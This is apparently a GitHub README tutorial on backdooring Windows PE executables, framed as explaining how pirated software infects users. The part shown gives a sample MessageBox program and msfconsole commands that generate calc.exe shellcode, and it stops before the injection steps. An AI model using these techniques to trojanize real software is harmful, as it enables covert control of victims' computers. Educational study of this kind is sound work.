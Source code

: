 


# 🔷 PE-Backdooring

 - This Repository Will Teach You How You Can Backdoor Any PE File 
 - How You Can Convert Simple PE into a reverse shell
 -  How You Can Craft Trojans With Shellcode
---

## 🔷 My Introduction
Hi my name is Aryan, im a cyber security student, just a 17 year old kid who loves Hacking and Programming, i love RE | Malware Dev and Analysis | Game Hacking etc. 


## 🧪 Introduction to PE-Backdooring 

**What is PE** - *PE is (Portable Executable) an executable file format which you typically see in windows .exe .dll .scr*
**What is Backdoor** - *Backdoor or backdooring is a method used for getting unauthorized access to any computer. Basically You can control someones computer from your computer without them knowing about it.*

So Basic idea of this repo is to make you understand how any hacker can plant a backdoor in your daily use softwares, So if for example you play **Call Of Duty Warzone** every day or any other game like **Battlefield 6** 
hacker can convert your game's exe to a malware can hack you.
And also this is **how people get hacked when they download crack software or games**.

---

## ▶️ Video Explanation ( if you want)
I have explained everything on my **Youtube Channel**  [Watch Video!](https://youtu.be/SH95uXG-RXY?si=vdffzp9UJllloRAZ)

---

## 🔰 Generating a PE for Testing
Ok Now First we need a PE file to experiment on right? 

i made a simple messagebox program in C++ which we will backdoor
think of it like its a **Photoshop 2025 software**

---
CODE:

    #include<Windows.h>
    
    int main(){
	    MessageBoxW(NULL,L"Photoshop.exe",L"Photoshop is now running",MB_OK);
	    return 0;
	   }

---
**Output of this program**:


<img width="240" height="170" alt="Screenshot 2025-08-20 205019" src="https://github.com/user-attachments/assets/52b5c10a-b347-4d46-95b8-f58680b8bdb9" />

## ☠️ Generating A Shellcode(Malware)

Now we will make our payload basiclly with will give us the shell
but right now for testing we will make a shellcode to open calculator in windows


### Step 1: Open msfconsole in kali linux or any other distro

### Step 2: 
---
COMMAND:

 	//Opens msfconsole
	msfconsole

  	//Mention payload as Shellcode
  	use payload/windows/exec

 	//Set command with will execute
   	set CMD calc.exe

	//generate shellcode
 	generate -f raw -o shellocde.bin

---

### Step 3: Download this bin file to your windows machine



